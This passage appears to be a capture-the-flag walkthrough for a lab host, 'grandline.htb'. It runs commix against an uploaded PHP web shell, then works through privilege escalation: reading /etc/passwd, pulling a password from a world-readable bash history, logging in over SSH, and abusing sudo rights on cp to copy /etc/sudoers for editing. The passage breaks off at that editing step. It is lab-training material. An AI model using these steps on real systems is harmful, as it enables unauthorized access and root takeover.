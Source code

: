 python3 commix.py http://grandline.htb/jQuery-File-Uploader/server/php/files/shell.php?cmd=whoami
```

# Privilege Escalation

Now, we have shell access.

You can use automated tools, by uploading one of these scripts in the link below.
Run the script, wait for the scanning done.
https://netsec.ws/?p=309&fbclid=IwAR0X9bFcC4VRO7CfMjsJRQEMzr19GcUXi_n3lUyfMy8Nv0Y3MdwyUEDOk9U

Or Let's walkthrough manually.

```
$ whoami
> www-data
```
```
[www-data]$ pwd
> /var/www/phpmail
```
```
[www-data]$ cat /etc/passwd
> root:!:
> ...
> tester:$6$...
> john:$6$...
> loki:$6$...
> franky:$6$
```
```
[www-data]$ ls -la /home/*
> /home/franky
> -rwxrwxrwx .bash_history
```
> Nani??? Permission was set to 777
```
[www-data]$ cat /home/franky/.bash_history
> ...
> echo 3d2yhijinbe > realpassword.txt
> ...
```
> Nani??? Why use password in command line like this!
```
[me@localhost]$ ssh franky@...
Password: 3d2yhijinbe

[franky@ubuntu]$ sudo -l
> /bin/cp

[franky@ubuntu]$ sudo cp
cp: Missing Operands

[franky@ubuntu]$ pwd
> /home/franky
```

## Modify ```/etc/sudoers``` by changing allowance command.

```
[franky@ubuntu]$ touch sudoers_Im_Coming
[franky@ubuntu]$ sudo cp /etc/sudoers ~/sudoers_Im_Coming
[franky@ubuntu]$ ls -l sudoers*
> rwxr-xr-x franky franky sudoers_Im_Coming
[franky@ubuntu]$ vi sudoers*
```
ViM screen
```
